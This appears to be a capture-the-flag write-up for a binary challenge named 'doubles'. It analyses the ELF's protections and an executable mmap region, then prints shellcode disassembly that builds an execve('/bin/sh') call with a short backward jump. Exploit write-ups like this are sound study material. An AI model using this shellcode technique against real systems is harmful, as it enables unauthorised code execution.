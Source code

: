 It is a x64 ELF file:

doubles: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e5511e0c31ccc63eda7398cbbfdf1d479f4854cd, not stripped

The binary protections:

Canary                        : No

NX                            : Yes

PIE                           : No

Fortify                       : No

RelRO                         : Partial

The binary only have the NX enabled. So no execution on memory allocations including stack.

However on the static analysis it is possible to determine that a new memory allocation is being done with mmap() on 0x4007c9.

![memory](doubles_1.png)

The allocation is done randomly on memory, with 0x10000 bytes and with execution permission.

![memory](doubles_2.png)

Here part of the disassembled binary:

![binary](doubles_3.png)

The address of the allocated memory by mmap() is saved on $r14 to use during the execution. And then proceeding the execution, there is the first scanf() at 0x40081. This will read an unsigned integer from the user's input.

![scanf](doubles_4.png)

This will determine how many double words you want to write on the allocated memory at the address 0x40085a, another scanf().

![scanf](doubles_5.png)

And then the registers are zeroed, but RAX with the allocated memory+0x70 bytes and it finally jumps there where it contains the last doubles from the input.

![exec](doubles_6.png)

So it will have the shellcode submitted in double (up to 0x6 times) and the $rip will be 0x70 bytes from this.

It is necessary to reach the entire shellcode jumping -0x78 bytes from the execution (there is some thrash 0x909090909090c031) put by the execution on offset 0x70.

There are opcode bytes that does the jump for short distances, for -0x78 bytes are *\xeb\x86*.

All registers were zeroed including $esp and $ebp ($rsp/$rbp) during the last block of execution. My tactic was to use $rip as reference for constructing since it was the only address available. The $rbx was not necessary.

0x7ffff7ff6000:	lea    rdi,[rip+0x19]        # Copying the address from $rip+0x19 where it contains the /bin/sh%00

0x7ffff7ff6007:	nop

0x7ffff7ff6008:	lea    rbx,[rdi]             # Copying the address from $rdi to $rbx

0x7ffff7ff600b:	lea    rsp,[rdi]             # Copying the address from $rdi to $rsp

0x7ffff7ff600e:	nop

0x7ffff7ff600f:	nop

0x7ffff7ff6010:	mov    rax,0x3b               # Setting $rax to 0x3b, execve syscall

0x7ffff7ff6017:	nop

0x7ffff7ff6018:	syscall                       # syscall

And executing the exploit.

![exploit](doubles_final.png)

Link to the [exploit!](exploit.py)
